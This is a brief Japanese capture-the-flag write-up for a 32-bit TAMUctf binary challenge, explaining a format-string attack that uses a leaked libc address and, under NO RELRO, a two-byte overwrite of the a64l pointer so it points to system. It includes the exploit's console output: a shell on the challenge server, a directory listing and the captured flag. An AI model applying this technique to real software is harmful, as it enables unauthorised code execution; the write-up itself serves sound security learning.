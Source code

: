 # Solution
32ビットプログラム。     
       
最初にlibc内のa64l関数のアドレスが与えられるため、ここからlibc baseを計算可能。          
その後1回だけ32バイト入力可能なfsbを行うことができる。fsb後exitなしの無限ループに入るため、このfsbで攻撃成功させたい。       
        
NO RELROであり、グローバル領域に様々な関数へのポインタが保存されているためここを書き換えることを考える。      
+ 無限ループの中でa64l(ユーザ入力のbuf)という処理があること。
+ a64lのアドレス4バイトのうち、2バイトはsystem関数のアドレスと必ず一致するため、a64l=>system関数に書き換える場合は2バイトのみを書き換えればよいこと。        
以上の2点よりa64lのポインタをsystem関数を指すようにfsbで上書きを行う。     

```
$ python3 exploit.py
[+] Opening connection to challenges.tamuctf.com on port 2783: Done
0xf7d2f000
0xf7d6dc00
0xdc00
17
[*] Switching to interactive mode
)
Enter your name!
Welcome, \x98\xb3\x0
<snip>
$ ls
b64decoder
flag.txt
start.sh
Please enter input to be decoded:
0
$ cat flag.txt
gigem{b1n5h_1n_b45364?}Please enter input to be decoded:
```
